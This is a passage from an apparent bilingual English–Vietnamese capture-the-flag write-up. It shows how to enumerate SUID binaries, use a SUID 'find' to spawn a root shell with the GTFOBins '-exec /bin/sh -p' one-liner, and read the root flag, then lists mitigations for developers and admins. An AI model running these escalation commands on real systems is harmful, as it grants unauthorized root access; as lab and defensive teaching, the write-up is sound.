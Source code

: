 ### SUID enumeration (Liệt kê SUID)
Search for SUID binaries:
*(Tìm binary có SUID):*
```bash
find / -perm -u=s -type f 2>/dev/null
```
If `/usr/bin/find` is SUID, it can be abused.  
*(Nếu `/usr/bin/find` có SUID, có thể lợi dụng.)*

### Abuse `find` SUID (GTFOBins technique)
GTFOBins documents an abuse technique. Example to spawn a root shell:
*(Recipe từ GTFOBins — sinh root shell nếu `find` SUID):*
```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```
`-exec /bin/sh -p \;` runs a shell with preserved privileges; because `find` ran with SUID root, the spawned shell inherits elevated privileges → root.  
*(Lệnh trên sẽ spawn shell với đặc quyền, dẫn tới root shell.)*

Finally, read the root flag:
*(Cuối cùng đọc root flag):*
```bash
whoami    # => root
cat /root/root.txt
```

---

## Mitigations (Phòng ngừa)

**For developers (Dev):**  
*(Dành cho dev:)*
- Avoid concatenating user input into shell commands — use argument-based APIs or libraries that accept argument arrays.  
  *(Tránh nối input người dùng vào shell.)*  
- Whitelist allowed values for parameters (preferred).  
  *(Whitelist giá trị cho phép.)*  
- If shell invocation is unavoidable, escape inputs (`escapeshellarg()` in PHP) and sanitize output before display.  
  *(Nếu phải dùng shell, escape input & sanitize output.)*  
- Don't store credentials in plaintext or in web-accessible logs.  
  *(Không lưu mật khẩu plaintext trong file web-accessible.)*

**For operators (Ops / Admins):**  
*(Dành cho admin:)*
- Remove unnecessary SUID bits and audit SUID binaries regularly.  
  *(Gỡ và audit SUID.)*  
- Remove demo/test pages from production (`_test/`) and apply least privilege for service accounts.  
  *(Loại bỏ trang demo khỏi production, áp dụng least privilege.)*  
- Use WAF/monitoring to detect suspicious inputs that contain shell metacharacters.  
  *(Dùng WAF/giám sát.)*

---
